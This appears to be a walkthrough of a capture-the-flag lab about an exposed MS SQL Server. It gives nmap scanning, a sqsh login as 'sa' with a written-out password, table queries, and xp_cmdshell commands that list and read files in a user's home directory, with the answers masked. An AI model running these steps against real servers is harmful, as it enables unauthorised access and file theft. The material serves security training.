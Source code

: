 # Day 11 - Where Are The Reindeers?

- There is an open port related to MS SQL Server accessible over the network. What is the port number?

	- `nmap -Pn <TARGET_IP>`
	- `****`

- If the connection is successful, you will get a prompt. What is the prompt that you have received?

	- `sqsh -S <TARGET_IP> -U sa -P t7uLKzddQzVjVFJp`
	- `**`

- We can see four columns in the table displayed above: id, first (name), last (name), and nickname. What is the first name of the reindeer of id 9?

	- `*******`

- Check the table schedule. What is the destination of the trip scheduled on December 7?

	- `select * from reindeer.dbo.schedule;`
	- `******`

- Check the table presents. What is the quantity available for the present “Power Bank”?

	- `select * from reindeer.dbo.presents;`
	- `*****`

- There is a flag hidden in the grinch user's home directory. What are its contents?

	- `xp_cmdshell 'dir C:\Users\grinch';`
	- `xp_cmdshell 'dir C:\Users\grinch\Documents';`
	- `xp_cmdshell 'type C:\Users\grinch\Documents\flag.txt';`
	- `***************`